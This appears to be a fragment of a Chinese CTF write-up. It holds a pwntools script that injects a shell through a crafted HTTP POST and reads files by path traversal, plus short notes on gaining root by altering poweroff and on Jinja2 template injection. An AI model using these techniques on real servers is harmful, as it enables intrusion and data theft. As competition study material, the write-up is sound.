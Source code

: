 sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)
r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")


def post():
    head = b'POST '
    path = b'/index.html'

    pay = head+path
    sl(pay)

    sl(b'Content-Length: 54')
    sl(b'Content-Type: application/x-www-form-urlencoded')
    sl(b'1111')

    pay = b'{\"username\":xixi,\"password\":1234,\"msg\":\"L2Jpbi9zaAA=\"}'
    print(len(pay))

    sl(pay)

    sl(b'ls > a')

def get_ls():
    head = b'GET '
    path = b'/../a'
    pay = head + path
    sl(pay)
    sl(b'')

def get_flag():
    head = b'GET '
    path = b'/../FfffflllllaaAAgg'
    pay = head + path
    sl(pay)
    sl(b'')

# post()
# get_ls()
get_flag()

io.interactive()
ez_kk
熙熙太强啦!!!没代码，真的。改一下poweroff就提权root了。
Web
ezjs
找到关键代码
[图片]
[图片]
Ezflask
[图片]
打开之后注入发现jinja2，直接fenjing 
